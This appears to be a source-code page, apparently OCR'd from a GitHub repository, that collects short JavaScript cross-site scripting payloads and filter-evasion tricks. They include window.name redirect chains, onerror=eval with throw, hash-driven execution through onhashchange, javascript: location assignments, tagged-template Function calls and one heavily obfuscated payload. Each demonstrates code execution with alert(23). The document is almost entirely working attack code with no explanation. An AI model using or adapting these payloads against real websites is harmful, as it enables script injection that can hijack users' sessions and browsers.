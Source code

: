 ----

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---

    example.com/#1/-alert(23)/
```    
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null;
```

---

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]

---

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```

---

    `%0aalert(/23/)//`

    location='javascript:'+location
    location=/javascript:/.source+location
    location=`javascript:`+location

---

```
x={...eval+0,toString:Array.prototype.shift,length:15},
x+x+x+x+x+x+x+x+x+x+x+x+x,
location = /javascript:/.source + alert.name+x+23+x
```

---

    example.com/xss?%0aalert(/23/)//

    Function`a${unescape. call`${location}`}```

---

    c=document,h=c.head,x=h.part,p=g=h.id,h.valueOf=p.sub,x.valueOf=p.at,o=g++,l=g++,z=g++,e=g++,a=g++,s=g++,d=g++,j=g++,b=g++,h.part=h+p,y=h.innerHTML=x+p,h.part=h.innerHTML,p+=x,h.part=c.nodeName,p+=x,k=o+p,u=l+p,w=p+l,t=w+l,f=w+o+b+w,h.innerHTML=t+s+t+d+w+z+l+f+o+u+a+j+t+l+t+o+f+l+u+g+j+w+o+k+d+l,h.innerHTML=y+h.innerHTML+p+g+j+f+o+l+t+a+w+l+d+p+a+k+s+k+s+u+a+u+a+j+p+a+j+h

---